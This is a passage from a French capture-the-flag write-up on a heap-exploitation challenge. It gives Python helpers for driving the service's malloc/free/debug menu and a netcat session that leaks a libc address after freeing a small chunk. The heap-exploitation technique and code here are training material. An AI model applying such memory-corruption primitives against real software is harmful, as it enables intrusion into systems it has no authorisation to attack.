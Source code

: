 ```py
    ptr = hex(ptr) if isinstance(ptr, int) else ptr
    r.recvuntil(">>> ")
    r.sendline("2") # free
    r.recvuntil(": ")
    r.sendline(str(ptr))
    r.recvline()

def read_at(addr):
    addr = hex(addr) if isinstance(addr, int) else addr
    r.recvuntil(">>> ")
    r.sendline("3") # debug
    r.recvuntil(": ")
    r.sendline(addr)
    a = r.recvline().split()

    f = lambda x: bytes(map(lambda y: int(y, 16), x))

    return [f(a[:8]), f(a[8:])]
```

Maintenant que l'on a un Write What Where, il faut savoir où écrire et quoi écrire.

## Leaker l'adresse de la libc
Comme lu dans ce [write-up](https://ctftime.org/writeup/14625), afin de leaker une adresse de la libc, on peut malloc deux `small chunks` puis free le premier et une adresse de la libc se trouvera au niveau du premier chunk : 
```
$ nc challenges2.france-cybersecurity-challenge.fr 4006
Malloc exploitation playground!
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 1
Amount in bytes [16-1024]: 136
malloc(136) = 0x562b6b2df010
Data to write (up to 136 bytes):
toto
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 1
Amount in bytes [16-1024]: 136
malloc(136) = 0x562b6b2df0a0
Data to write (up to 136 bytes):
AAAA
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 2
Address to free: 0x562b6b2df010
free(0x562b6b2df010)
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 3
Address to show (16-byte sneak peak): 0x562b6b2df010
78 8b 57 c7 17 7f 00 00 78 8b 57 c7 17 7f 00 00
```